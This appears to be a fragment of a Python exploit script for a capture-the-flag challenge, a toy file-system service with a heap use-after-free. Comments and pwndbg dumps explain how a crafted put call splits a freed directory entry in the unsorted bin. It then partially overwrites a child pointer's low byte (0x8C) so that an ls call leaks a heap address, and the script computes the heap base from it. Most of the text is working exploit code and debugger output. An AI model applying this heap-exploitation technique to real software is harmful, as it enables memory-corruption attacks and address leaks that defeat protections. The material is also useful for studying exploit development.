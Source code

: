 ```python

#the put has to use a path that is relative addressing, otherwise we go from root not pwd
#and it fails.

#when we do a put with relative path, we trigger a find_file(), which will walk from the pwd.
#this walking affects the child[] array of the object, which has absolutely
#not been trashed by the heap. alas, it will match foobar and do a new allocation
#to satisfy the size request.

#This results in splitting up pwd1's directory_entry_t object that is on the unsorted bin
#and finally giving us partial write access to the first child pointer. We use this to modify
#its LSB such that it is moved ahead 0x1C, which will mean that the child[0]->name will instead point to the original child[0]->data field, therefore an ls of this item will leak out the data pointer value.

#we overwrite the following fields:
'''
p64(0) - entry.parent_directory = NULL
p32(1) - entry.type = DIRECTORY_ENTRY
20*"C" - name
p64(1) - child count
"\x8C" - LSB of child[0] - see description why we use 0x8C:
'''

'''
after UAF free trigger, the pwd points to:

pwndbg> x/gx 0x56214b4d4000+0x204058
0x56214b6d8058:	0x000056214bc83310

Here we have:

pwndbg> malloc_chunk 0x000056214bc83300
0x56214bc83300 PREV_INUSE {
  mchunk_prev_size = 0,
  mchunk_size = 177,
  fd = 0x7f34c2d13ca0 <main_arena+96>,
  bk = 0x7f34c2d13ca0 <main_arena+96>,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
pwndbg> x/8gx 0x000056214bc83310
0x56214bc83310:	0x00007f34c2d13ca0	0x00007f34c2d13ca0
0x56214bc83320:	0x0000000000000000	0x0000000000000000
0x56214bc83330:	0x0000000000000010	0x000056214bc83470
0x56214bc83340:	0x0000000000000000	0x0000000000000000

So now we need to modify 0x000056214bc83470 so that at +C it has what it should have at +0x28.
-> 0x70 + (0x28 - 0xC) = 0x70 + 0x1C = 0x8C.
'''

put("foobar", p64(0) + p32(1) + "C"*20 + p64(1) + "\x8C")

out = ls_get()
print "received %d bytes" % len(out)

for b in out:
    print "0x%02X" % ord(b)

#The first 6 bytes of this leak is the heap address.
heap_addr = unpack(out[:6], 8*6, endian='little')
print "Leaked heap address: 0x%08x" % heap_addr
heap_base = heap_addr - 0x310
```